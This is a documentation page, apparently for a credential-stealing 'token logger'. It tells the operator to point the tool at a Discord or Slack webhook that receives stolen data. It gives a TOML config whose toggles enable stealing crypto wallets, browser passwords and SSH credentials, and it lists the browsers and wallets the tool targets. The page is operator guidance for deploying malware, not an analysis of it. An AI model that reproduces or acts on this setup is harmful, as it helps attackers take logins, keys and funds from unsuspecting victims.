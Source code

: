 # Configuration
Here we shall configure the token logger.

## Configuring the logger
In the `Config.toml` file, there is a field called `webhook`. Change this to your Discord / Slac webhook.

We can have extra features in our config, for example logging browser passwords and crypto wallets. The fields should look like this:
```toml
[features]
steal_crypto_wallets = false
steal_browser_passwords = false
steal_shh_credentials = false

[features.browsers]
# You can add more browsers here, if they are supported.
browser_to_steal = ["Firefox", "Chrome", "Opera", "OperaGX", "Vivaldi", "Brave"]

# and much more.
```

The current supported browser's are:
- Firefox
- Chrome
- Brave
- Microsoft Edge

The current supported crypto wallet's are:
- Exodus
- Monero Wallet

If you have finished editing your config, move to the next page.
